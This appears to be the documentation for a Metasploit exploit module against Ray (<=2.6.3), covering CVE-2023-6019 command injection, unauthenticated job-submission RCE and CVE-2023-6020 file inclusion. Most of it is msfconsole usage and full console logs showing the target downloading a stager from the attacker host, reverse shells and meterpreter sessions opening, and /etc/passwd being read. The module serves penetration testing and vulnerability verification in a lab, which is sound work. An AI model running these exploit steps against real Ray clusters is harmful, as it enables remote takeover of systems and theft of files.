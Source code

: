 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to three vulnerabilities:

    * RCE via cpu_profile command injection vulnerability (CVE-2023-6019)
    * RCE via the agent job submission endpoint (No CVE)
    * local file inclusion (CVE-2023-6020)

This module exploits all three vulnerabilities.

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cmdi_rce_lfi`
4. Do: `set rhost <rhost>`
5. Optional: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set CVE <cve>`
8. Do: `run`
9. You should get a shell or meterpreter

## Options

### CVE (required)

This is the vulnerability to use. Default is `CVE-2023-6019`, but `RCE` and `CVE-2023-6020` can also be chosen.

### COMMAND (required)

This is the command to execute. Default is `echo 'Hello from Metasploit'`. This is used when CVE is set to `CVE-2023-6019` or `RCE`.

### FILEPATH (required)

This is the file to read. Default is `/etc/passwd`. This is used when CVE is set to `CVE-2023-6020`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 0)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/VvzBBm8
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /VvzBBm8
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:40554) at 2024-08-05 08:26:42 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/tMBeDO
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /tMBeDO
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:39652) at 2024-08-05 08:28:46 +0900
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 0)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE 
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_TKeWeJRKQZFkU2zN' Submission ID: 'raysubmit_TKeWeJRKQZFkU2zN'
[*] Using URL: http://192.168.56.1:8080/roy19E
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /roy19E
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (38 bytes) to 192.168.56.6
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:43312) at 2024-08-05 08:40:06 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_g4jZ3U5aQu4gYrFy' Submission ID: 'raysubmit_g4jZ3U5aQu4gYrFy'
[*] Using URL: http://192.168.56.1:8080/ZMCKWGQCHh
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /ZMCKWGQCHh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 4 opened (192.168.56.1:4444 -> 192.168.56.6:42666) at 2024-08-05 08:41:22 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6020)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6020
cve => CVE-2023-6020
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash
```
